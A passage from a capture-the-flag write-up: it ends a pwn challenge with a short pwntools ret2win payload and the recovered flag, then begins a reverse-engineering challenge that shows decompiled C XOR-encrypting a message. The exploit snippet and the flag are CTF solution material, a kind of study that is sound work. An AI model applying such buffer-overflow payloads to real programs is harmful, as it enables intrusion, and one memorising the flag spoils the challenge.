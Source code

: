 ```py
payload = flat(
    cyclic(offset), ret, win
)
p.sendlineafter(b": ", payload)
p.interactive()
```
![](ret2win4flag.png)
Flag: `TCP1P{leak_satu_alamat_semua_alamat_ketahuan}`
## Reverse Engineering
### Micro Rev
###### Author: Dimas Maulana
###### Desc: First C reverse engineering challenge :P
As same as the title, is Micro means its easy (i think).
So we got a file of exe, and enc.txt
this Main function contains:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *ptr; // [rsp+20h] [rbp-10h]
  FILE *stream; // [rsp+28h] [rbp-8h]

  if ( argc > 1 )
  {
    ptr = (char *)xorMessage(argv[1], &unk_203D);
    stream = fopen("enc.txt", "w");
    if ( stream )
    {
      fprintf(stream, "%s\n", ptr);
      fclose(stream);
      free(ptr);
      puts("Encrypted message saved to enc.txt");
      return 0;
    }
    else
    {
      perror("Failed to open file for writing");
      free(ptr);
      return 1;
    }
  }
  else
  {
    fprintf(stderr, "Usage: %s <secret message>\n", *argv);
    return 1;
  }
}
```
if u can read those main function correctly, u will know that the enc.txt is got XOR'ed by key (ofc), and the key is in ``&unk_203D``
```c
```